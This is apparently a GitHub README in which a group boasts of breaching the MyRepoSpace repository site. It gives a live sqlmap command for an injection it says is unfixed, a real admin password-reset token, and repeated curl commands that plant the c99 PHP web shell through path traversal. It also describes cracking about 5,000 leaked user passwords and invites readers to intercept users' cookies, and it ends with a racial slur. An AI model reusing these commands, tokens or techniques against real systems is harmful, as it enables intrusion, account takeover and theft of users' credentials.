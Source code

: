 # How We Hacked MyRepoSpace
For this write-up, I'm going to only cover _how_ we were able to gain access to the MRS server, and not the reasons for us doing so.

### How it started
The first bug we used on MRS was a blind SQL injection, found by Ben. This let us access all information stored in the websites databases, but being a blind injection, retrieving anything was very slow. We inadvertently DOS'd the site doing this, bringing it down a few times... Oops.

The URL vulnerable to the injection is: 
```
http://myrepospace.com/register/check1.php?nick=1
```

Using SQLMap, we could gain a SQL shell with:
```
./sqlmap.py -u "http://myrepospace.com/register/check1.php?nick=1" --sql-shell
```

**This has not been fixed**

Using this injection, Ben started snooping through the database contents and  discovered something interesting. Located in the `users` database was a column called `forgetToken`. Investigating further, it was revealed that this token was a randomly generated string, 32 characters long, used for password resets. And it was stored in plain text. 
When you combine this token with the users `id`, you can then do something like this:
```
https://www.myrepospace.com/login/forgot.php?id=215086&v=93bfb5d60cd3778ec5558e29dc3e8c09
```

And you would be greeted with this:

<!-- ![Password reset page](http://i.imgur.com/tlt5kVI.png) -->
![Password reset page](https://raw.githubusercontent.com/BannerBomb/MyRepoSpace-Hack/master/687474703a2f2f692e696d6775722e636f6d2f746c74356b56492e706e67.png)

We could change any users password, access any account that we wanted. The admin account for the site was user id `1`, and with a forgetToken of `0efd8bb79347ada32d249d5f77e6149c`.

### What next?
So this is fun, we could access any account on the site, including the admin's account - but we wanted more. So I went searching. 

One of MRS's 'tools' is iDeb - a part of the site that allows you to upload a zip file, and it converts it into a deb file. This is very handy, but unfortunately it was written very poorly. 

It worked by moving the uploaded zipped file to a temporary directory, unzipping the contents, and then running the `ar` command on the unpacked files to create the debian package. The temporary directory would look something like `http://www.myrepospace.com/iDeb/temp/July/5599b6ff99dba/`, and was completely accessible to us. **This is bad**.

So after figuring out how the iDeb system worked, I simply took a popular php shell, c99.php, zipped it, and uploaded it to be packaged as a deb. Once uploaded, I navigated to the newly created temp directory for the upload, and sure enough `c99.php` was the first file listed. We now had full access to the server, including access to the mysql database. [Discovered by Ethan]

<!-- ![MySQL database on MRS](http://i.imgur.com/5pihv7Z.png) -->
![MySQL database on MRS](https://raw.githubusercontent.com/BannerBomb/MyRepoSpace-Hack/master/687474703a2f2f692e696d6775722e636f6d2f3570696876375a2e706e67.png)

### Admin's fix part 1
The first fix the owner of the site did was moving the temporary directory files were unpacked in to a place we couldn't access - `~/tmp`, the full path being something like `~/tmp/iDeb/July/5599b6ff99dba/zip_contents_here`. You'll notice that random string - this is called a UID and is randomly generated **client side** and sent to the server when you upload a zip file. On the server, iDeb runs this code, creating the directory with the UID:

```
$uID = $_POST['UPLOAD_IDENTIFIER'];
$tmp = "/home/myreposp/tmp/iDeb";
$to = "$tmp/$month/$uID/";

if(!File_exists($to)){
	mkdir($to, 0755, true);
}
```
In order to access our uploaded files (the php shell), we need to have them uploaded to a place accessible to us - specifically `/home/myreposp/public_HTML`. Since the `UID` is created client side, we can manually specify it - and since the site doesn't perform any type of checks on the `UID` its sent, we can do some dirty things using curl and path traversal.

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

This would unpack our zipped file's contents to the root directory of the website... and we were back in. [Discovered by Ben]

### Admins's fix part 2 
The next thing the site owner did was make the `public_html` directory `root` owned - meaning we couldn't write any files to it. This was actually a pretty clever move, but was executed fairly bad. He forgot to make any subdirectories root owned. `~/public_html/` was off limits, but `~/public_html/vip` wasn't. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

We were back in. [Discovered by Ethan]

### Admin's fix part 3
After this breach, the tool was modified to delete the unpacked files after the deb was created. It would take the zip file, unpack it, use `ar` to make the deb, and then delete everything except for the new deb, and the original zip (both of which were useless to us). 

Ok, no problemo! We'll just stop uploading zip files, and start uploading our php shell directly, since the only file type check was done client side through ajax. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

And once again, we were in. [Discovered by Andy]

### Admin's fix part 4
So the admin caught on to us uploaded php files, and added a regex check in `upload.php` to ensure no non-zips were uploaded. When we tried to upload our php shell, it returned a scary error telling us we were uploading an invalid file. Awh! But no worries... even though it threw an error at us, it still uploaded our file as usual. Nice job admin!

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

Ignoring scary errors, we were still in. [Discovered by Andy]

## ¯\\\_(&#12484;)_/¯
That's about it, after the last breach the iDeb tool was properly fixed, and our method of getting in was broken. But have no fear, we released the source code to the site, which will reveal that it is littered with bugs and sql injections! All of these 'hacks' were achieved through exploiting a single file, who knows how many other files are as vulnerable as this one was.

~herpes

### About passwords
Passwords were initially **unsalted md5**, until the 2nd of February when the admin switched to... md5 with a static salt. "MRS-WINS", prepended to the password, in case you were wondering. The admin was [quite proud of this](https://twitter.com/myRepoSpace/status/562613742794706944). He kindly left the old passwords in the database for people who hadn't yet changed theirs. We were able to recover about 5000 through rainbow tables and basic dictionary attacks on a recent mid-range CPU in a few hours alone (for research purposes only - but honestly, us telling you we did this is better than someone else secretly using it for evil).

Password resets always use the same static hash (again, an md5 of the password and the unix time of registration tacked on) and so to get into someone's account you can just grab that and paste it into the password reset url. I don't think these ever got re-generated so if someone got a hold of it, you'd be pretty screwed.

After we leaked the user database, the admin changed the hashing to... md5 with a static salt. Now it's "MRS-WINS-AGAIN" - yeah um, nice try but not quite. Apparently the fact that md5 has long been considered obsolete, flawed, and very fast to brute-force on modern hardware, in combination with the fact that a static salt does very little to help, isn't enough to make him spend a moment googling to find how passwords *should* be stored. Grab an md5 from the dump and spend some time learning how to log in without knowing the password by using a colliding hash - go on, I'll wait.

Oh well. It doesn't even matter any more, anyway, because he now kindly sends you a copy of your password hash as a cookie. 

```php
setcookie("gxli","2g".base64_encode("$_SESSION[userID]-$md5pass"),$time+58060800, '/', '.myrepospace.com',false,true);
```

So if you'd like to have a crack at bruteforcing someone's password, just MitM them to grab their cookies (not all of MyRepoSpace enforces HTTPS - oh, and we have their SSL key anyway). Or, change your own user ID, since it's used for the admin's logging. Last we saw this was one of the few places left that allows for an SQLi too. Child's play, really.

You might not think it's a big deal for a not so sensitive site like MyRepoSpace but any time passwords (hashed or not) are leaked, you can guarantee that many people would have used the same password on other sites that may very well be sensitive. There's also the thing of uploading evil packages on otherwise trustable people's repos.

Even if the MyRepoSpace admin claims everything is fixed, it's not. Don't waste your time, go make a repo on GitHub or something.

~ Andy

Fuck bein' on some chill shit. We go 0 to 100 nigga, real quick.

~haifisch

